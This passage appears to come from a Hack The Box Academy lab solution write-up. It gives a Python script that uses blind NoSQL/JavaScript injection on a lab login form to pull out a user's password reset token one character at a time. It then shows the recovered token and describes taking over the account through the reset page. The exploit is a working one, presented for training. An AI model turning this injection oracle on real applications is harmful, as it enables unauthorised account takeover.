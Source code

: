Code: python

```python
#!/usr/bin/env python3

from urllib.parse import quote_plus
import requests

def oracle(query):
    r = requests.post(
        "http://STMIP:STMPO/login",
        headers = {"Content-Type": "application/x-www-form-urlencoded"},
        data = f"username={quote_plus(query)}&password=doesNotMatterIamBypassed"
    )
    return "credentials." in r.text

passwordResetToken = ""
for i in range(24):
    low = 45
    high = 90
    mid = 0

    while low <= high:
        mid = (high + low) // 2
        if oracle(f'" || (this.username == "bmdyy" && this.token.charCodeAt({i}) > {mid}) || "" != "'):
            low = mid + 1
        elif oracle(f'" || (this.username == "bmdyy" && this.token.charCodeAt({i}) < {mid}) || "" != "'):
            high = mid - 1
        else: 
            passwordResetToken += chr(mid)
            break
```

After running the script, students will attain a password reset token:

```shell
python3 oracle.py
```
```
┌─[us-academy-2]─[10.10.14.207]─[htb-ac413848@htb-0j7gwcrwri]─[~]
└──╼ [★]$ python3 oracle.py

LXC4-JK00-BOKG-37YE-HCT9
```

Subsequently, with the attained password reset token for the user "bmdyy", students need to visit the `/reset` webpage and reset the password:

![[HTB Solutions/CWEE/z. images/bede7d608723200d09dda621a0e8ec7c_MD5.jpg]]

After supplying the token, students will be prompted to change the password, and it is always a good operations security practice to use a cryptographically secure password so that other threat agents can't gain access also. To generate one, students can use `openssl`:
